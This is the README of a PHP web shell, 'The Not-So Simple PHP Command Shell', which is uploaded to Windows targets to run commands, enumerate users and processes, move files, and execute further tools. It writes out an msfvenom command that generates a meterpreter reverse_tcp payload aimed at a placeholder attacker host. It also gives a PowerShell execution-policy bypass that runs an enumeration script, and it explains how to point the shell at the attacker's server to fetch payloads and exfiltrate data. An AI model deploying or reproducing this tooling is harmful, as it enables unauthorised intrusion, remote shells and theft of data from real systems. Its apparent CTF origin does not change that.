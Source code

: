 <h1> The Not-So Simple PHP Command Shell</h1>
<img src="/img/nsscmdshell.png" />
<p>Automates many on target functions. Designed for windows targets. It isn't pretty, but it works as intended. I have included an assortment of common windows enumeration and escalation tools.  To generate your own msfvenom payload:<br> 
venom.exe : <code>sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=(ATTACKBOXIP) LPORT=(ATTACBOXPORT) -e x64/shikata_ga_nai -f exe -o venom.exe</code>
</p>

<img src="https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshelluse.gif" />
<h2>Automates or simplifies many on target enumeration functions. Including:</h2>
<ul>
<li>Simple system commands</li>
<li>File upload/download options</li>
<li>simple user manipulations (on compatible targets with sufficient privileges)</li>
<li>One click user info/ user permissions info</li>
<li>One click systeminfo</li>
<li>One Click processes list</li>
<li>And many more...</li>
</ul>

<h2>How to use it</h2>
<p>First, change the variables, "$attackip" and "$attackport" to the appropriate values for YOUR attack machine:</p>
<code>$attackip = "10.0.2.6";</code><br>
<code>$attackport = "8000";</code>

<p>Next, upload the nsscmdshell.php file to the target. Please note that gaining access to the target is beyond the scope of this writing and your responsibility to establish in a manner consistent with established law.  This tool is intended to be used for on target enumeration to gather and exfiltrate information and then to upload and execute tools such as netcat or msvenom payload for further access to the target. </p>

<p>Once the nsscmdshell is uploaded, typing valid commands into the command input or clicking the various cmd buttons will display the results in a windows command prompt style below the nsscmdshell interface.</p>
<img src="https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshell-output.png" />
<p>The upload and download options are self explanatory, but just to avoid any confusion: <br><br>
If using the select field, choose your file and click "upload". files linked in the select field options need to be present at the web root&sup;1 at the ip address and port in lines 10 and 11 of nsscmdshell.php. <br>
If using the open file dialog option, only files present at the ip address and port specified can be uploaded. <br>
For the download option, simply enter the filename to be downloaded from the working directory of the target machine. Please note that files which can be managed by your browser will be opened in your browser - i.e., entering a text or html file to be downloaded will instead open the file in the web browser.<br>   
Example usage: run jaws-enum.ps1 - output to jaws.txt <code>powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename jaws.txt</code>, then download the output file to your attack machine for later close examination.<br><br>

<img src="https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshell-jaws.png" />
</p>
<p>The quick command buttons each have a title attribute with a brief description of the function - hover over the button to see the description.<br>

<img src="https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshell-title-desc.png" /><br>

It goes without saying that the effectiveness of the various functions depends on the target os's support of the functions and the current user's permissions. This was designed for and tested on Windows XP - Windows 8.1 with very limited testing on Win10.</p> 
&sub;1 I generally cd into my "windowstools" folder and start a simple http server:<br>
<code>cd windowstools</code><br>
<code>python3 -m http.server 8000</code>.<br>

<img src="https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshell-listening.png" />

*** Got "Warning: file_get_contents(http://XX.XX.XX.XX:XXXX/filename.ext):failed to open stream: No connetion could be made...." error? 
 Two possible causes:</p>
 <ol>
 <li> You didn't set the variables, <code>$attackip</code> and <code>$attackport</code> to your machine. Fix: ifconfig your ip, and set in nsscmdshell.php lines 10 and 11.</li> 
 <li> The files are not available on the defined server or port, or there is no server running on the defined port. Fix: <code>python3 -m http.server XXXX</code> in a directory containing the files you're attempting to upload.</li>
 </ol>
<div style="margin:0px 0px 0px 85%;text-align:center;"><img src="http://www.hackthebox.eu/badge/image/476578" alt="Hack The Box" /></div>
